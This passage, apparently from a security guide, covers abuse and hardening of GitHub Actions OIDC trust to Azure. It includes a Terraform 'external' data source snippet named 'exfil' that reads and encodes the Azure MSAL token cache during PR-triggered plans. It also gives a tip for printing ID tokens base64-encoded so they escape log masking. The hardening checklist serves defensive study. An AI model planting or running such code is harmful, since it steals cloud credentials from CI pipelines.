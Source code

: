 ```hcl
data "external" "exfil" {
  program = ["bash", "-lc", "cat ~/.azure/msal_token_cache.json | base64 -w0 | base64 -w0"]
}
```

Granting FICs usable on PR‑triggered plans exposes privileged tokens and can tee up destructive apply later. Separate identities for plan vs apply; never allow privileged tokens in untrusted PR contexts.

## Hardening checklist

- Never use sub=...:pull_request for sensitive FICs
- Protect any branch/tag/environment referenced by FICs (branch protection, environment reviewers)
- Prefer FICs scoped to both repo and job_workflow_ref for reusable workflows
- Customize GitHub OIDC sub to include unique claims (e.g., repo, job_workflow_ref, repository_owner)
- Eliminate unquoted interpolation of caller inputs into run steps; encode/quote safely
- Treat terraform plan as code execution; restrict or isolate identities in PR contexts
- Enforce least privilege on App Registrations; separate identities for plan vs apply
- Pin actions and reusable workflows to commit SHAs (avoid branch/tag pins)

## Manual testing tips

- Request a GitHub ID token in‑workflow and print it base64 to avoid masking
- Decode JWT to inspect claims: iss, aud, sub, job_workflow_ref, repository, ref
- Manually exchange the ID token against login.microsoftonline.com to confirm FIC matching and scopes
- After azure/login, read ~/.azure/msal_token_cache.json to verify token material presence

## References

- [GitHub Actions → Azure via OIDC: weak FIC and hardening (BinarySecurity)](https://binarysecurity.no/posts/2025/09/securing-gh-actions-part2)
- [azure/login action](https://github.com/Azure/login)
- [Terraform external data source](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/external)
- [gh CLI](https://cli.github.com/)
- [PaloAltoNetworks/github-oidc-utils](https://github.com/PaloAltoNetworks/github-oidc-utils)

